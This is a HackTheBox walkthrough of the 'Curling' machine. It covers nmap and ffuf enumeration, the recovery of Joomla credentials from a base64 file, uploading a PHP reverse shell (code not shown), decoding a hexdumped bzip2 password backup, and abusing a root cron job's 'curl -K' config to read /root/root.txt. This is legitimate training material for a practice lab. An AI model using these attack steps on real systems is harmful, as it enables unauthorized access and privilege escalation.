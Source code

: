 ```yaml
---
title: "Curling"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["joomla"]
---
```


![info card](media/curlinginfocard.png)

## Introduction

Curling is a medium-difficulty machine on HackTheBox that involves exploiting a Joomla Content Management System (CMS) to gain initial access and leveraging cron jobs for privilege escalation. This walkthrough will guide you through the process of compromising the Curling machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -oA nmap/initial 10.10.10.150
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-07 02:37 EST
Nmap scan report for 10.10.10.150
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.24 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 7.6p1
- **HTTP (80):** Apache httpd 2.4.29 with Joomla CMS

### Web Enumeration

![homepage](media/curlinghomepage.png)

Visiting the HTTP service on port 80 revealed a Joomla blog site. We initiated a `ffuf` scan to enumerate directories.

**Directory Brute-Forcing:**

```bash
ffuf -w ./wordlist -u http://10.10.10.150/FUZZ
```

![ffuf](media/curlingffuf.png)

**Key Directories Identified:**

- `/administrator`
- `/templates`
- `/components`

### Discovering the Joomla Administrator Login

In the `/administrator` directory, we found the default Joomla login page. By inspecting the blog posts, we discovered the author name: `Floris`.

**Author Name:**

![founduser](media/curlingfounduser.png)

### Extracting Credentials

At the bottom of the source code, we found a comment referencing `secret.txt`. Accessing this file revealed a base64-encoded string:

```
Q3VybGluZzIwMTgh
```

Decoding this string provided the password:

```
Curling2018!
```

### Gaining Initial Access

Using the credentials `floris:Curling2018!`, we logged into the Joomla administration page. To gain a shell, we uploaded a PHP reverse shell via the template editor.

![Upload Shell](media/curlingshell.png)

## Privilege Escalation

### Enumerating User Files

In the `floris` home directory, we found a file named `password_backup` that appeared to be a hexdump.

**Hexdump File:**

```
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

### Decoding the Backup File

Recognizing the `BZh91AY&SY` signature, we identified the file as a bzip2 archive. We converted the hexdump back to binary and decompressed it:

```bash
xxd -r password_backup > newfile
bzip2 -d newfile
```

This process revealed a gzip file, which we further decompressed to obtain the password:

```
5d<wdCbdZu)|hChXll
```

**Password File:**

![Password File](media/curlingpassfile.png)

### Accessing User Shell

Using the discovered password, we SSHed into the machine as `floris`:

```bash
ssh floris@10.10.10.150
```

**User Shell Obtained:**

![User Shell](media/curlinguser.png)

## Privilege Escalation to Root

### Discovering Cron Jobs

In the `floris` home directory, we found a folder named `admin-area` containing two files: `input` and `report`. The timestamps of these files changed every few minutes, indicating a cron job.

![adminfile](media/curlingadmin-area-files.png)

### Exploiting the Cron Job

We identified a cron job running as root that used the `input` file to generate the `report` file:

```bash
/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

To exploit this, we modified the `input` file to fetch the root flag:

```
url = "file:///root/root.txt"
```

**Root Flag Obtained:**

![Root Flag](media/curlingroot.png)

## Conclusion

The Curling machine on HackTheBox provided a comprehensive challenge, encompassing web application enumeration, Joomla exploitation, and cron job privilege escalation. By methodically enumerating services, exploiting discovered credentials, and leveraging cron jobs, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.